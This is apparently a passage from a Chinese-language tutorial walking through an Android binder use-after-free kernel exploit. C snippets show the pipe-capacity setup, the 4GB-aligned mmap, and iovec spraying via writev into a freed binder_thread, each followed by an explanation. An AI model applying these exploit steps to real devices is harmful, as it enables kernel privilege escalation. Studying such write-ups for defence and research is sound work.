 ```c
        printf("\t[*] Changed the pipe capacity to: 0x%x\n", PAGE_SIZE);
    }

```

首先申请一个binder_fd,evemtpoll的fd,开一个管道，将管道容纳的大小改为PAGE_SIZE(0x1000)

```c
    printf("[+] Setting up iovecs\n");


      if (!m_4gb_aligned_page) {
        printf("[+] Mapping 4GB aligned page\n");

        m_4gb_aligned_page = mmap(
                (void *) 0x100000000ul,
                PAGE_SIZE,
                PROT_READ | PROT_WRITE,
                MAP_PRIVATE | MAP_ANONYMOUS,
                -1,
                0
        );

        if (!m_4gb_aligned_page) {
            printf("\t[-] Unable to mmap 4GB aligned page\n");
            exit(EXIT_FAILURE);
        } else {
            printf("\t[*] Mapped page: %p\n", m_4gb_aligned_page);
        }
    }

    iovecStack[IOVEC_WQ_INDEX].iov_base = m_4gb_aligned_page;
    iovecStack[IOVEC_WQ_INDEX].iov_len = PAGE_SIZE;
    iovecStack[IOVEC_WQ_INDEX + 1].iov_base = (void *) 0x41414141;
    iovecStack[IOVEC_WQ_INDEX + 1].iov_len = PAGE_SIZE;
    
    printf("[+] Linking eppoll_entry->wait.entry to binder_thread->wait.head\n");

    epoll_ctl(m_epoll_fd, EPOLL_CTL_ADD, m_binder_fd, &m_epoll_event);
```

接着填写覆盖掉binder_thread的iovc,以及将epoll的节点链接到binder_thread上面去

```c
  printf("[+] Freeing binder_thread\n");
    ioctl(m_binder_fd, BINDER_THREAD_EXIT, NULL);
    ssize_t nBytesWritten =  writev(pipe_fd[1],iovecStack,IOVEC_COUNT);
```

之后主线程free掉binder_thread,调用witev 喷射到free后的binder_thread上面去，并将我们的iovc覆盖了free后的binder_thread,

接着根据我们的iovc向管道写数据，在第IOVEC_WQ_INDEX(也就是10)个iovc时堵塞，因为之前将管道大小设为0x1000,在m_4gb_aligned_page读取0x1000数据，写入管道后，管道堵塞，
